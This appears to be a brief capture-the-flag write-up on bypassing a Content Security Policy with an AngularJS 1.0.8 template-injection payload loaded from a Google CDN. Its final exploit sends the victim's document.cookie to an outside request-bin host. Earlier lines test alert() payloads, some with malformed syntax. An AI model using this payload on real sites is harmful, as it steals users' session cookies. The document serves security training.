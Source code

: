 # Exploit

Nothing on the first page is exploitable

On the other, though, both name and comment is exploitable.

Load angularjs from ajax.google.com, then execute code.

From the jsonp repository:
`ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
`

we can download angular, then open a div with malicious code:

`script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app"ng-csp ng-click=$event.view.alert(1337)>`

But this violates csp style...

but heeey with angular we can put code in `{{ }}`. 
Then I discovered that `{{constructor.constructor("alert(1)")()}}` is a valid payload!

Exploit:

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app ng-csp ng-click={{constructor.constructor("window.location.href='https://requestbin.training.jinblack.it/1kd8gl81?cookie='+document.cookie")()}}>

```
